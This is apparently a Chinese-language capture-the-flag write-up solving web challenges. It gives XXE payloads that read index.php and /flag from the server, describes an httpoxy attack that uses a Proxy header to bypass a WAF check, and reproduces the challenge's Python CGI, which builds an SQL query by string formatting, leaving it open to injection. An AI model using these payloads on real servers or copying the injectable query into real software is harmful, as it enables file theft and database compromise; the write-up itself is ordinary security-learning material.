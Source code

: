 # File Access
```
file://index.php
```

# XXE

讀取index.php檔案，發現 flag 不在裡面=3=
```
<!DOCTYPE root [
  <!ENTITY name SYSTEM
  "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"
  >
]>
<root>
    <result>&name;</result>
</root>
```
   
然後重讀題目發現....我眼殘 flag 在 /flag

```
<!DOCTYPE root [
  <!ENTITY name SYSTEM "file:///flag">
]>
<root>&name;</root>
```

# Bonus-httpoxy.py
這題一定要有 Proxy Server 而且要給外部訪問，可以利用手機網路，至少有實體IP   
不然AWS 或是其他 VPS 花下去，這題我把Linode 拿來用了...   

遇到一件事就是 Squid 架不起來，Google 了一下，放棄除錯改用 tinyproxy   

這題模擬 cgi 的漏洞，程式到 `http://127.0.0.1/waf` 去判斷參數有沒有正確，這邊就有點問題了     
其中 cgi 會把 header 的值變大寫並在前加入 `HTTP_` 的prefix，並加入環境變數      
而 `HTTP_PROXY` 這環境變數存在則會通過該變數的代理伺服器       

在 server 內的建立一個 127.0.0.1/waf 讓他固定回傳 ok 並    
在發送請求時加入 proxy 這個 header 就是這題目的主要方法       

## cgi-bin
```
#!/usr/bin/env python
#
# By Orange Tsai :P
#

import os
import cgi
import sqlite3
import requests
from urllib import quote
from base64 import b64encode

print "Content-Type: text/html\n"

query  = os.environ["QUERY_STRING"]
params = dict(cgi.parse_qsl(query))

WAF = 'http://127.0.0.1/waf/'

def check_param(s):
    data = {
        'data': s
    }
    r = requests.post(WAF, data)
    content = r.content.strip()
    if r.content == 'ok':
        return True
    else:
        return False



news_id = params.get('id', '1')
if not check_param(news_id):
	news_id = '1'

conn = sqlite3.connect('/var/www/db/flag.db')
cur = conn.cursor()
cur.execute("SELECT * FROM news WHERE id='%s'" % news_id)
data = cur.fetchone()
if data:
	print data[1]
else:
	print 'Hacker?'
```
## waf
```
<?php
	// Simple Web Application Firewall
	// 
	$data = $_POST['data'];
	$data = (String)$data;
	if ($data == '1' || $data == '2' || $data == '3') {
		echo 'ok';
	}
```


**然後就是SQL injection的開始**   

其實一開始用還用 id 遞增的方式下去跑 XDD   

